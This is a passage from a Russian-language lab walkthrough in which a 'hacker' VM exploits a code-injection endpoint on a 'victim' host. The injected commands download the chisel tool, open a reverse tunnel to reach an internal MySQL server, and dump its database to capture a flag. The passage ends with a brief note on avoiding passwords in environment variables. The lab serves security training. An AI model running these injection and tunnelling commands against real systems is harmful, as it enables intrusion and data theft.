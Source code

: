 Загрузим приложение на `victim` и запустим его:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output /tmp/chisel.gz 2>&1');"
  <h1> Hello world!</h1>
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100   651  100   651    0     0   3518      0 --:--:-- --:--:-- --:--:--  3518
  100 3346k  100 3346k    0     0   789k      0  0:00:04  0:00:04 --:--:--  870k
  <br>
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('cd /tmp && gzip -d chisel.gz && chmod +x chisel');"
  <h1> Hello world!</h1>
  <br>
```

Запустим серверную часть chisel на хосте `hacker`, для этого откроем новый терминал и выполним:
```
$ vagrant ssh hacker
vagrant@hacker:~$ ./chisel server -p 8008 --reverse
  2020/11/29 15:02:22 server: Reverse tunnelling enabled
  2020/11/29 15:02:22 server: Fingerprint tyWC23cR/aMoDOJKIjwdXIlzirzNP4bkS3KNRlLa78k=
  2020/11/29 15:02:22 server: Listening on http://0.0.0.0:8008
```

Теперь запустим chisel на хосте `victim` при помощи команды:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('/tmp/chisel client 192.168.56.7:8008 R:3306:172.18.0.2:3306 2>&1');"
  <h1> Hello world!</h1>
  2020/11/29 15:04:51 client: Connecting to ws://192.168.56.7:8008
  2020/11/29 15:04:51 client: Connected (Latency 2.219222ms)
```

Откроем ещё один терминал на `hacker`:
```
$ vagrant ssh hacker
vagrant@hacker:~$ mysqldump -h 127.0.0.1 -uprod -p production
  Enter password: 

  <...>
  LOCK TABLES `flag` WRITE;
  /*!40000 ALTER TABLE `flag` DISABLE KEYS */;
  INSERT INTO `flag` VALUES (1,'Flag captured');
  /*!40000 ALTER TABLE `flag` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  <...>
```

## Solution I

Единственным решением является отказать от передаче паролей через 
переменные окружения. Но необходимо предложить альтернативу так как
эта информация необходима для формирования конфигурационных-файлов
и пр. 
